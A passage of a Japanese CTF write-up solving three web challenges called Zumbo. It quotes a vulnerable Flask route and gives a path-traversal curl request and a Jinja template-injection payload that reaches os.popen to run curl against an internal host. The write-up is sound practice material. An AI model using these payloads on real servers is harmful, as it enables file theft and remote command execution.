```
﻿⁠⁠⁠⁠Flag:OnlyAsStrongAsWeakestLink
```

## [Web 20] Zumbo 1

私が問題をチェックした時点で [@hiww](https://twitter.com/hiww) さんがソースを見つけていました。

ソース内にある `FLAG: FIRST_FLAG_WASNT_HARD` を投げると正解でした。

```
FLAG: FIRST_FLAG_WASNT_HARD
```

## [Web 100] Zumbo 2

```python
@app.route('/<path:page>')
def custom_page(page):
    if page == 'favicon.ico': return ''
    global counter
    counter += 1
    try:
        template = open(page).read()
    except Exception as e:
        template = str(e)
    template += "\n<!-- page: %s, src: %s -->\n" % (page, __file__)
    return flask.render_template_string(template, name='test', counter=counter);
```

とあります。~~`curl http://zumbo-8ac445b1.ctf.bsidessf.net/%2fflag`~~ `curl http://zumbo-8ac445b1.ctf.bsidessf.net/..%2fflag` でフラグが出てきました。

```
FLAG: RUNNER_ON_SECOND_BASE
```

## [Web 250] Zumbo 3

さきほどのコードを見ると、エラーメッセージをそのまま `flask.render_template_string` に投げています。テンプレートのインジェクションができそうです。

過去問を探していると [A python's escape from PlaidCTF jail · @wapiflapi](http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/) という記事を見つけました。これをもとに

```
http://zumbo-8ac445b1.ctf.bsidessf.net/%7b%7b ().__class__.__base__.__subclasses__()[59]().__repr__.im_func.func_globals['linecache'].os.popen('curl http://vault:8080/flag').read() %7d%7d
```

でフラグが出てきました。

```
FLAG: BRICK_HOUSE_BEATS_THE_WOLF
```

## [Web 100] the-year-2000
